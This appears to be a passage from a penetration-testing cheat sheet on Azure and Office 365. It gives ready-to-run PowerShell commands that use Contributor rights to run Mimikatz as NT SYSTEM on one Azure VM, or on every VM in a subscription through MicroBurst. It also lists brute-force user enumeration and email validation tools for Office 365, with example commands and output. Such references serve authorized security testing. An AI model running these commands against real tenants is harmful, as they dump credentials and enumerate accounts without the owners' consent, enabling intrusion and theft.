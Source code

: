 ## Azure VM - Execute command as NT SYSTEM with Contributor right

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name

ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## Office365 - Enumerating Users

NOTE: By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Bruteforce user enum : https://bitbucket.org/grimhacker/office365userenum/src/master/ based on the endpoint https://login.microsoftonline.com/getuserrealm.srf?login=firstname.lastname@domain.com&xml=1
    ```powershell
    RealmInfo Success="true">
    <State>3</State>
    <UserState>2</UserState>
    <Login>firstname.lastname@domain.com</Login>
    <NameSpaceType>Federated</NameSpaceType>
    <DomainName>domain.com</DomainName>
    <FederationGlobalVersion>-1</FederationGlobalVersion>
    <AuthURL>
    https://fws.domain.com/o365/visfed/intrdomain/se/?username=firstname.lastname%40domain.com&wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline&wctx=
    </AuthURL>
    ```
* Validate email : https://github.com/LMGsec/o365creeper `o365creeper.py -f emails.txt -o validemails.txt`
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon


## References

* [An introduction to penetration testing Azure - Graceful Security](https://www.gracefulsecurity.com/an-introduction-to-penetration-testing-azure/)
* [Running POwershell scripts on Azure VM - Netspi](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
* [Attacking Azure Cloud shell - Netspi](https://blog.netspi.com/attacking-azure-cloud-shell/)
* [Maintaining Azure Persistence via automation accounts - Netspi](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Detecting an attacks on active directory with Azure - Smartspate](https://www.smartspate.com/detecting-an-attacks-on-active-directory-with-azure/)
* [Azure AD Overview](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Building Free Active Directory Lab in Azure - @kamran.bilgrami](https://medium.com/@kamran.bilgrami/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f) 